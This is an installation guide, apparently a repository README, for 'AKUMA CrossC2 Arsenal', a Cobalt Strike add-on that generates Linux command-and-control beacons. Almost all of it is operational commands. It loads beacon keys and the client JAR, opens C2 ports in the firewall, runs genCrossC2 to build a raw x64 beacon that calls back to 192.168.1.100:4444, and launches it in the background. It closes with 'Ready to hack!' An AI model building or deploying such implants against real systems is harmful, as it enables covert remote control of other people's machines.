 # 🛠️ AKUMA CrossC2 Arsenal - Installation Guide

## Prerequisites

### System Requirements
- **OS**: Linux (Ubuntu 18.04+, Kali Linux, etc.)
- **Java**: OpenJDK 11+ 
- **Memory**: 4GB RAM minimum
- **Disk**: 2GB free space
- **Network**: Outbound connections on custom ports

### Required Software
```bash
# Ubuntu/Debian
sudo apt update
sudo apt install -y git openjdk-11-jdk build-essential

# Arch Linux
sudo pacman -S git jdk11-openjdk base-devel

# CentOS/RHEL
sudo yum install -y git java-11-openjdk-devel gcc gcc-c++
```

## Installation Steps

### 1. Clone the Arsenal
```bash
git clone https://github.com/sweetpotatohack/AKUMA-CrossC2-Arsenal.git
cd AKUMA-CrossC2-Arsenal
chmod +x tools/genCrossC2.Linux
```

### 2. Setup Cobalt Strike Integration
```bash
# Copy your Cobalt Strike beacon keys
cp /path/to/your/.cobaltstrike.beacon_keys ./

# Load scripts in Cobalt Strike:
# Cobalt Strike -> Script Manager -> Load -> scripts/CrossC2Kit_Loader.cna
```

### 3. Verify Installation
```bash
# Test genCrossC2
./tools/genCrossC2.Linux

# Should show usage information
```

## Configuration

### Beacon Keys Setup
```bash
# Make sure beacon keys are readable
chmod 644 .cobaltstrike.beacon_keys

# For genCrossC2 to work, copy client JAR
cp /path/to/cobaltstrike-client.jar ./.gen.jar
```

### Firewall Configuration
```bash
# Allow common C2 ports
sudo ufw allow 4444/tcp
sudo ufw allow 443/tcp
sudo ufw allow 80/tcp
```

## First Beacon Generation

```bash
# Generate your first beacon
./tools/genCrossC2.Linux \
  192.168.1.100 \
  4444 \
  ./.cobaltstrike.beacon_keys \
  null \
  Linux \
  x64 \
  ./first_beacon \
  raw

# Test the beacon
chmod +x ./first_beacon
./first_beacon &
```

## Troubleshooting

### Common Issues

#### 1. "Unable to access jarfile ./.gen.jar"
```bash
# Solution:
cp /path/to/cobaltstrike-client.jar ./.gen.jar
```

#### 2. "read key error"
```bash
# Check beacon keys permissions:
ls -la .cobaltstrike.beacon_keys
chmod 644 .cobaltstrike.beacon_keys
```

#### 3. Beacon not connecting
```bash
# Check listener status:
ss -tuln | grep [PORT]

# Check beacon process:
ps aux | grep beacon
```

Ready to hack! 🔥
